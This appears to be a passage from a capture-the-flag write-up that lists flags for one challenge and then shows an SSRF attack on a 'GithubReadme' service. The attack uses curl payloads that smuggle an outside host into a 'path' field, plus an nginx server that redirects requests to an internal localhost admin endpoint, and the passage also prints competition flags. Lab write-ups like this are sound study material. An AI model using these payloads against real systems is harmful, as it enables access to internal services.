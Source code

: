 ### Flag
`IMPORTANT_S3_P0L1CY_ByJ`

### Real flag
`HTO{2828ec41891f40c69b054db9848fd01b}`


## GithubReadme
![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/c454233f-0ecb-413b-82b8-aae424e19a95)

A web site to get github readme.

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/c511f03e-795c-49dc-bb21-982ae48e0e8b)

Check source code.

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/021ff3e1-4b1a-49b6-a8c0-c6c9e9312f17)

There can url injection to SSRF.

Try this payload to get google.

```bash
curl -X POST "https://githubreadme.hacktheon-ctf.org/api/view" -d '{"path":"@www.google.com?test=","branch_name":"main"}'
```

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/fbb766d3-e550-431a-b356-41d76704f787)

success!!

But we need to redirect to http.

Build a nginx server with https to redirect http.

```
server {
    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/test.chummydns.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/test.chummydns.com/privkey.pem; # managed by Certbot
    include /etc/letsencrypt/options-ssl-nginx.conf; # managed by Certbot
    ssl_dhparam /etc/letsencrypt/ssl-dhparams.pem; # managed by Certbot
    server_name test.chummydns.com;
    return 301 http://localhost:8044/api/admin;
}
```

And try this payload

```bash
curl -X POST "https://githubreadme.hacktheon-ctf.org/api/view" -d '{"path":"@test.chummydns.com?test=","branch_name":"main"}'
```
